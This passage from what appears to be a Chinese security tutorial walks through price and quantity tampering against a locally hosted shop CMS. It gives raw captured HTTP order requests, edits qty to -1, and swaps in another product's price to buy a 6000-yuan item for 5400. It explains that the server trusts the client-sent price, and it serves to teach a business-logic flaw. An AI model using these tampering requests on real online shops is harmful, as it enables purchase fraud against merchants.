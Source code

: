 ![1648259148149-546766af-0e60-419c-ba15-31266ac13311.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913133223270-443858107.png)

```plain
这样就对价格进行了修改，从而用6块钱买到了6000块钱的东西
产生这个漏洞是因为这个6000价格不是固定的。最终判定金额的大小的时候，是由你的数据包的值为准，从而导致金额的篡改。
```

数量

```plain
http://127.0.0.1:8117/index.php?s=/articles/127.html

抓取数据包
```

![1648259439095-f030e4a5-583c-4f5b-81d7-ba77298544de.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913133223518-1231262049.png)

```plain
购买产品数量为1的数据包：
GET /index.php?m=Member&a=gobuy&iscart=0&id=127&name=%E5%A4%A7%E7%B1%B3%E6%B5%8B%E8%AF%95%E4%BA%A7%E5%93%81&qty=1&price=6000&gtype=%E7%81%B0%E8%89%B2&pic=/Public/Uploads/thumb/thumb_1393218295.jpg HTTP/1.1

把qty的值进行修改
GET /index.php?m=Member&a=gobuy&iscart=0&id=127&name=%E5%A4%A7%E7%B1%B3%E6%B5%8B%E8%AF%95%E4%BA%A7%E5%93%81&qty=-1&price=6000&gtype=%E7%81%B0%E8%89%B2&pic=/Public/Uploads/thumb/thumb_1393218295.jpg HTTP/1.1
```

![1648259523259-94b42a1b-9546-4598-98d4-1596a1faa78f.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913133224970-2033695519.png)

产品

```plain
购买大米测试产品（6000）

数据包的值：
GET /index.php?m=Member&a=gobuy&iscart=0&id=127&name=%E5%A4%A7%E7%B1%B3%E6%B5%8B%E8%AF%95%E4%BA%A7%E5%93%81&qty=1&price=6000&gtype=%E7%81%B0%E8%89%B2&pic=/Public/Uploads/thumb/thumb_1393218295.jpg HTTP/1.1


购买小米cms（5400）

数据包的值：
GET /index.php?m=Member&a=gobuy&iscart=0&id=70&name=%E5%A4%A7%E7%B1%B3%E6%89%8B%E6%9C%BACMS&qty=1&price=5400&gtype=%E7%81%B0%E8%89%B2&pic=/Public/Uploads/thumb/thumb_1393218295.jpg HTTP/1.1

我们想以5400的价格去购买6000的东西，该怎么修改他呢？
拿6000数据包：不修改价格和数量，其他都修改。
/index.php?m=Member&a=gobuy&iscart=0&id=127&name=%E5%A4%A7%E7%B1%B3%E6%B5%8B%E8%AF%95%E4%BA%A7%E5%93%81&
&gtype=%E7%81%B0%E8%89%B2&pic=/Public/Uploads/thumb/thumb_1393218295.jpg

对5400的数据包进行替换：
GET /index.php?m=Member&a=gobuy&iscart=0&id=127&name=%E5%A4%A7%E7%B1%B3%E6%B5%8B%E8%AF%95%E4%BA%A7%E5%93%81&qty=1&price=5400&gtype=%E7%81%B0%E8%89%B2&pic=/Public/Uploads/thumb/thumb_1393218295.jpg HTTP/1.1
```
